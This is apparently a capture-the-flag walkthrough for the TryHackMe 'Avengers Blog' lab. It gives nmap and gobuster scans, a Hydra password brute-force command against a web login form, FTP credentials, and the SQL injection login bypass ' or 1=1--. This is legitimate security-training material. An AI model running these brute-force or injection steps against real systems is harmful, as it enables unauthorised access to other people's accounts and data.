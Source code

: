 # Avengers Blog

**Room Link:** [https://tryhackme.com/room/avengers](https://tryhackme.com/room/avengers)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -l groot -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/auth/:username=^USER^&password=^PASS^:F=Incorrect username" -V

```



## Cookies

Get the flag with developer console by checking the cookie.

<figure><img src="../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>



## HTTP Headers

<figure><img src="../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

##

## Enumeration and FTP

**Kali**

```
ftp $VICTIM
Username: groot
Password: iamgroot
```

<figure><img src="../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

## GoBuster

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





## SQL Injection

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

```
Username: ' or 1=1--
Password: ' or 1=1--
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>



## Remote Code Execution and Linux

<figure><img src="../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

